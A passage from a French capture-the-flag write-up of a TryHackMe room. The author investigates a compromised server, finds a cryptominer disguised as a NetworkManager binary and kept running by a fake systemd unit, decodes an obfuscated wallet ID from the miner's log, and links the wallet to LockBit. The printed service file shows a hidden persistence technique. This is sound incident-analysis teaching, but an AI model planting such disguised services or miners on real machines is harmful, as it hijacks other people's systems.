  irqbalance.service                             loaded active running irqbalance daemon                              >
  kerneloops.service                             loaded active running Tool to automatically collect and submit kernel>
  lightdm.service                                loaded active running Light Display Manager                          >
  ModemManager.service                           loaded active running Modem Manager                                  >
  multipathd.service                             loaded active running Device-Mapper Multipath Device Controller      >
  mysqld.service                                 loaded active running LSB: start and stop MySQL                      >
  networkd-dispatcher.service                    loaded active running Dispatcher daemon for systemd-networkd         >
  NetworkManager.service                         loaded active running Network Manager                                >
  polkit.service                                 loaded active running Authorization Manager                          >
  rsyslog.service                                loaded active running System Logging Service                         >
  rtkit-daemon.service                           loaded active running RealtimeKit Scheduling Policy Service          >
  serial-getty@ttyS0.service                     loaded active running Serial Getty on ttyS0                          >
  snap.amazon-ssm-agent.amazon-ssm-agent.service loaded active running Service for snap application amazon-ssm-agent.a>
  snapd.service                                  loaded active running Snap Daemon                                    >
  ssh.service                                    loaded active running OpenBSD Secure Shell server                    >
  switcheroo-control.service                     loaded active running Switcheroo Control Proxy service               >
  systemd-journald.service                       loaded active running Journal Service                                >
  systemd-logind.service                         loaded active running Login Service                                  >
  systemd-networkd.service                       loaded active running Network Service                                >
  systemd-resolved.service                       loaded active running Network Name Resolution                        >
  systemd-timesyncd.service                      loaded active running Network Time Synchronization                   >
  systemd-udevd.service                          loaded active running udev Kernel Device Manager                     >
  ubuntu.service                                 loaded active running TRYHACK3M                                      >
  udisks2.service                                loaded active running Disk Manager                                   >
  unattended-upgrades.service                    loaded active running Unattended Upgrades Shutdown
```

Il y a beaucoup de services qui sont en cours d'exécution mais un se distingue (la description contient TRYHACK3M qui est pertinent pour le challenge) :

```bash
ubuntu.service loaded active running TRYHACK3M
```

Ce service est la réponse à la Q3.

Voyons le contenu de ce fichier de service.

```bash
(remote) apache@tryhackme:/data/www/default\$ systemctl cat ubuntu.service
# /etc/systemd/system/ubuntu.service
[Unit]
Description=TRYHACK3M
[Service]
Type=simple
ExecStart=/lib/NetworkManager/nm-inet-dialog
Restart=on-failure
[Install]
WantedBy=multi-user.target
```

Bien, maintenant nous avons aussi la réponse à la Q2 !

## Réponses aux Q2 et Q3

Jusqu'à présent, nous avons obtenu :

- Réponse à la Q2 qui est `nm-inet-dialog`
- Réponse à la Q3 qui est `ubuntu.service`

## Q4  : What is the log file name of the miner instance ?

OK, maintenant nous avons l'emplacement exact de `nm-inet-dialog` qui se trouve sous `/lib/NetworkManager`. Déplaçons nous sous ce répertoire et voyons ce que nous pouvons trouver.

```bash
(remote) apache@tryhackme: cd /lib/NetworkManager
(remote) apache@tryhackme:/lib/NetworkManager\$ ls -la
total 8636
drwxr-xr-x 6 root root 4096 Apr 8 2024 .
drwxr-xr-x 148 root root 12288 Apr 2 2024 ..
drwxr-xr-x 2 root root 4096 Feb 27 2022 VPN
drwxr-xr-x 2 root root 4096 Apr 3 2024 conf.d
drwxr-xr-x 5 root root 4096 Feb 27 2022 dispatcher.d
-rw-r--r-- 1 root root 48190 Apr 11 2024 inet.conf
-rwxr-xr-x 1 root root 14712 Feb 16 2024 nm-dhcp-helper
-rwxr-xr-x 1 root root 47672 Feb 16 2024 nm-dispatcher
-rwxr-xr-x 1 root root 843048 Feb 16 2024 nm-iface-helper
-rwxr-xr-x 1 root root 6948448 Apr 8 2024 nm-inet-dialog
-rwxr-xr-x 1 root root 658736 Feb 16 2024 nm-initrd-generator
-rwxr-xr-x 1 root root 27024 Mar 11 2020 nm-openvpn-auth-dialog
-rwxr-xr-x 1 root root 59784 Mar 11 2020 nm-openvpn-service
-rwxr-xr-x 1 root root 31032 Mar 11 2020 nm-openvpn-service-openvpn-helper
-rwxr-xr-x 1 root root 51416 Nov 27 2018 nm-pptp-auth-dialog
-rwxr-xr-x 1 root root 59544 Nov 27 2018 nm-pptp-service
drwxr-xr-x 2 root root 4096 Nov 27 2021 system-connections

```

OK, on a pas mal de choses ici. Après avoir regardé autour, le premier fichier qui pourrait être un fichier log pour moi était le `inet.conf`.

J'ai alors vérifié son contenu.

```bash
(remote) apache@tryhackme:/lib/NetworkManager\$ head -n 25 inet.conf
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:46:04,743 [*] confbak: Ready!
2024-04-08 10:46:04,743 [*] Status: Mining!
2024-04-08 10:46:08,745 [*] Miner()
2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
2024-04-08 10:46:08,745 [*] Status: Mining!
2024-04-08 10:46:10,747 [*] Miner()
2024-04-08 10:46:12,748 [*] Miner()
2024-04-08 10:46:14,751 [*] Miner()
2024-04-08 10:46:16,753 [*] Miner()
2024-04-08 10:46:18,755 [*] Miner()
2024-04-08 10:46:20,757 [*] Miner()
2024-04-08 10:46:22,760 [*] Miner()
2024-04-08 10:46:24,762 [*] Miner()
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
2024-04-08 10:48:04,647 [*] confbak: Ready!
2024-04-08 10:48:04,648 [*] Status: Mining!
2024-04-08 10:48:08,649 [*] Miner()
2024-04-08 10:48:08,649 [*] Bitcoin Miner Thread Started
2024-04-08 10:48:08,649 [*] Status: Mining!
2024-04-08 10:48:10,651 [*] Miner()
2024-04-08 10:48:12,653 [*] Miner()
2024-04-08 10:48:14,656 [*] Miner()
2024-04-08 10:48:16,656 [*] Miner()
2024-04-08 10:48:18,659 [*] Miner()

```

Par son contenu, nous devinons que c'est ce fichier qui est utilisé comme fichier log.

J'ai essayé d'entrer son nom et oui ! C'est ce fichier.

## Réponse à la Q4

La réponse est `inet.conf`.

## Q5 : What is the wallet address of the miner instance ?

Ici, nous devons trouver une adresse Bitcoin. Vous avez peut-être remarqué la longue chaîne à l'intérieur du fichier précédent. Perso, je l’avais remarqué mais je ne savais pas quoi en faire.

En fait, c'est une chaîne obfusquée (j’en ai pris note !).

**Définition simple de l'obfuscation de données trouvée sur Internet :** 

L’obfuscation de données est une technique de sécurité qui consiste à **transformer des données sensibles ou critiques** (comme des mots de passe, des identifiants, ou du code source) afin de **les rendre difficilement compréhensibles** ou exploitables pour un humain ou un programme malveillant, **tout en conservant leur fonctionnalité ou structure de base**.

Donc, vous l’avez compris, nous devons désobfusquer cette chaîne. Essayons de le faire en utilisant Cyberchef !



**Note : La fonction Magic de Cyberchef tente de détecter diverses propriétés des données d'entrée et suggère quelles opérations pourraient aider à en faire plus sens. (Source : Cyberchef)**

En utilisant la fonction **Magic** de Cyberchef, nous obtenons un résultat intéressant.

Résultat : `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`

Si vous regardez de près, vous trouverez que nous avons réussi à récupérer non pas une mais deux adresses Bitcoin !

- Première adresse : `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`
- Deuxième adresse : `bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`

Maintenant, comment savoir laquelle est la réponse ? Eh bien, ici, nous n'avons que deux adresses, donc vous pouvez simplement essayer les deux et voir laquelle est la bonne.

Néanmoins, nous pouvons également vérifier la validité d'une adresse en utilisant un site web de lookup d’adresses Bitcoin.

Par exemple, en utilisant [https://www.blockonomics.co](https://www.blockonomics.co/), nous obtenons le résultat suivant



Pour la deuxième, vous obtiendrez le message d'erreur suivant :
`Invalid BTC Address bc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa`

## Réponse à la Q5

La réponse est `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

## Q6 : The wallet address used has been involved in transactions between wallets belonging to which threat group ?

Pour répondre à cette question, nous suivrons les étapes suivantes :

- Récupérer les transactions passées en utilisant le site web précédent ([https://www.blockonomics.co](https://www.blockonomics.co/))
- Vérifier les montants suspects
- Vérifier à quelle adresse Bitcoin la transaction était destinée
- Rechercher l'adresse de destination

Sur la capture d'écran précédente, nous pouvons voir qu'une énorme transaction a été effectuée le 12 mai 2023.

En vérifiant les adresses de sortie, nous obtenons :

- `bc1q4xh8cmyp5e4cus660ah2jv3ja8pg7fgml8lj3g`
- `32pTjxTNi7snk8sodrgfmdKao3DEn1nVJM`

En recherchant la première, je n'ai rien trouvé d'intéressant, alors qu'avec la deuxième, j'ai obtenu les articles suivants :

- Le premier provient du département de la trésorerie américaine:
    - https://ofac.treasury.gov/recent-actions/20240220
- Et le deuxième provient du site web Chainanalysis :
    - https://www.chainalysis.com/blog/lockbit-takedown-sanctions-february-2024/

Les deux mentionnent le nom d'un groupe de ransomware nommé **LockBit** !

## Réponse à la Q6

La réponse est **Lockbit**.

Parfait, nous avons terminé la room ! Félicitations !

## Résumé

Cette room concernait l'exploitation d'un site web WordPress vulnérable via un plugin/thème WordPress (Bricks) vulnérable et non mis à jour. Après avoir obtenu un RCE sur la machine cible, nous avons obtenu des identifiants (inutiles pour le challenge, d'ailleurs), nous avons également dû trouver un processus suspect (définiment un malware de cryptominage) et enquêter à son sujet (logs, adresses Bitcoin, recherche sur des adresses Bitcoin).

À travers cette room, j'ai compris à quel point certaines vulnérabilités peuvent être facilement exploitées, surtout lorsqu'on utilise un service/plugin vulnérable. Cela m'a également aidé à acquérir plus de connaissances pratiques en tests de pénétration web (WordPress au moins).

## Remerciements

Si vous êtes arrivé jusqu'ici — merci ! Le partage de connaissances est ce qui rend la communauté CTF vraiment géniale.

J'espère que ce write-up a été utile ou au moins intéressant. Et n'oubliez pas :

*Every vulnerability is a lesson in disguise — the more we break, the more we understand how to build.*